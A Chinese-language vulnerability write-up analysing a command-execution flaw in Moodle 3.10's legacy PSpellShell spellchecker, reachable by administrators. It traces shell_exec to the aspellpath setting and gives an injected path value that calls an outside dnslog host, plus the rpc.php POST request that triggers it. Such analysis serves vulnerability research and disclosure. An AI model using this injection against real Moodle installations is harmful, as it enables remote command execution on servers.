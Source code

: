 前言
--

Moodle 是世界上最流行的学习管理系统。在几分钟内开始创建您的在线学习网站！

Moodle 3.10 中默认的旧版拼写检查器插件中存在命令执行漏洞。一系列特制的 HTTP 请求可以导致命令执行。攻击者必须具有管理员权限才能利用此漏洞。

过程分析
----

对于PHP代码审计，一般会先看常见危险函数，参数是否可控。  
全局搜索危险函数：`shell_exec`，程序有两处调用，让我们进一步跟踪，看参数是否可控。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8fb0b5fae0f5bbd09bd30c24097ebaaac613c8c0.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8fb0b5fae0f5bbd09bd30c24097ebaaac613c8c0.png)

跟进PSpellShell.php文件31行处的调用  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-c397fe8b9a8da7dd339084e951c9672eccc540d5.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-c397fe8b9a8da7dd339084e951c9672eccc540d5.png)

进一步跟进参数`$cmd`，来自19行处`$this->_getCMD($lang);`调用，一般情况下，这时候要看变量`$lang`的来源了。此处我们先看下`_getCMD()`方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b63e0ef715c90d8c6572c81d62d3eb335ba35c3e.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b63e0ef715c90d8c6572c81d62d3eb335ba35c3e.png)

可以看到，有两个参数可控，其中一个`$lang`，不过，这个变量不能存在`_-a-z`这些字符，局限性比较大。不如来跟进`$bin`这个变量  
跟进`$this->_config`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b7117c5708f88011724d89646b057f68e7c33d5b.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b7117c5708f88011724d89646b057f68e7c33d5b.png)

`$CFG`是一个全局变量，用来存储所有配置项，不用过多考虑，下面直接全局搜索`aspellpath`

在文件`config-dist.php:1038`处，我们知道这个变量是指定拼写检查插件的位置。接下来，再找找哪里可以设置这个参数  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6c13a05efe30febe0e60fe7f35eeec7550d2a4b1.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-6c13a05efe30febe0e60fe7f35eeec7550d2a4b1.png)

如下，管理员设置系统路径配置的一个方法，构造url：`http://moodle.langke.com/admin/settings.php?section=systempaths`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-057f375e3fc35079f63407a56ba469b124fcb83b.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-057f375e3fc35079f63407a56ba469b124fcb83b.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b9cc8072c8c4812fd3fc3434fba463874ed7c489.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b9cc8072c8c4812fd3fc3434fba463874ed7c489.png)

根据位置，构造payload：

```php
$aspellpath = 'ping ihamhr.dnslog.cn ||'

if (preg_match("#win#i", php_uname()))
            return "$bin -a --lang=$lang --encoding=utf-8 -H < $file 2>&1";

        return "cat $file | $bin -a --lang=$lang --encoding=utf-8 -H";

// 最终shell_exec()执行的语句
# win
'ping ihamhr.dnslog.cn ||-a --lang=$lang --encoding=utf-8 -H < $file 2>&1'
# linux 
'cat $file | ping ihamhr.dnslog.cn ||-a --lang=$lang --encoding=utf-8 -H'

```

下面找到调用这个插件的地方  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-32377e97932407048f7628b38fa03a627044aeb1.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-32377e97932407048f7628b38fa03a627044aeb1.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-715ab8a02b3952a43a4825e43dc95d61f080f464.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-715ab8a02b3952a43a4825e43dc95d61f080f464.png)

设置拼写检查器引擎为`PSpellShell`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-88e75c71562f43f04353da08747a444b8c26a1bd.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-88e75c71562f43f04353da08747a444b8c26a1bd.png)

下面调用，跟进`config.php`文件30行，  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8bf4aaf0712670994cf0ab88240e18702b3ab759.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-8bf4aaf0712670994cf0ab88240e18702b3ab759.png)

跟进`rcp.php`，最终可以通过这个文件触发漏洞位置

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-989538dd1ea19fe89061d7e3b62de9e416588a7a.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-989538dd1ea19fe89061d7e3b62de9e416588a7a.png)

关键代码，给`method`参数传入`PSpellShell`类有漏洞的方法·`checkWords`或者`getSuggestions`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-0755a4c9c076b8103dee2088abccf8437b0d68ff.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-0755a4c9c076b8103dee2088abccf8437b0d68ff.png)

构造post请求：url: lib/editor/tinymce/plugins/spellchecker/rpc.php

```php
{"method":"getSuggestions","params":["1","2"]}
```

验证
--

设置paylaod  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-ddb4fbaa0c8e1480d80070effb393c42c4399e03.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-ddb4fbaa0c8e1480d80070effb393c42c4399e03.png)

设置引擎  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-27a75b847c6e2a6281531de1f114394204c705dc.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-27a75b847c6e2a6281531de1f114394204c705dc.png)

触发：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-46243f37d8cb238bcc3fe745f76e22c1f6861684.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-46243f37d8cb238bcc3fe745f76e22c1f6861684.png)